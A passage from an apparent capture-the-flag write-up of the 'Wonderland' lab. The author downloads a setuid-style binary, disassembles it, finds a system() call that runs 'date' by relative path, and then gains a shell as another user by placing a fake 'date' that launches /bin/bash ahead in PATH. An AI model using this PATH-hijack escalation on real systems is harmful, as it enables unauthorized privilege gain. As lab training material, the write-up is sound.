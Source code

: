 
```
rabbit@wonderland:/home/rabbit$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.8.4.19 - - [23/Oct/2022 18:54:55] "GET /teaParty HTTP/1.1" 200 -
```

```
└──╼ $wget http://10.10.190.164:8080/teaParty
--2022-10-23 19:54:39--  http://10.10.190.164:8080/teaParty
Connexion à 10.10.190.164:8080… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 16816 (16K) [application/octet-stream]
Sauvegarde en : « teaParty »

teaParty                                                   100%[========================================================================================================================================>]  16,42K  2,08KB/s    ds 7,9s    

2022-10-23 19:54:49 (2,08 KB/s) — « teaParty » sauvegardé [16816/16816]

```
```
│           0x55795772918d      488d3d740e00.  lea rdi, str.Welcome_to_the_tea_party__nThe_Mad_Hatter_will_be_here_soon. ; 0x55795772a008 ; "Welcome to the tea party!\nThe Mad Hatter will be here soon."
│           0x557957729194      e897feffff     call sym.imp.puts       ; int puts(const char *s)
│           0x557957729199      488d3da80e00.  lea rdi, str._bin_echo__n_Probably_by___date___datenext_hour__R ; 0x55795772a048 ; "/bin/echo -n 'Probably by ' && date --date='next hour' -R"
│           0x5579577291a0      e89bfeffff     call sym.imp.system     ; int system(const char *string)
│           0x5579577291a5      488d3ddc0e00.  lea rdi, str.Ask_very_nicely__and_I_will_give_you_some_tea_while_you_wait_for_him ; 0x55795772a088 ; "Ask very nicely, and I will give you some tea while you wait for him"
│           0x5579577291ac      e87ffeffff     call sym.imp.puts       ; int puts(const char *s)
│           0x5579577291b1      e89afeffff     call sym.imp.getchar    ; int getchar(void)
│           0x5579577291b6      488d3d130f00.  lea rdi, str.Segmentation_fault__core_dumped_ ; 0x55795772a0d0 ; "Segmentation fault (core dumped)"
```
Basically the interresting part is ` "/bin/echo -n 'Probably by ' && date --date='next hour' -R"`. the `date` library path can also be hijacked just like we did in python

Also faking a segfault...that's so evil I should note it down! who even do that??

```
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > date
rabbit@wonderland:/home/rabbit$ chmod 777 date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
Oh look he came! (lol)
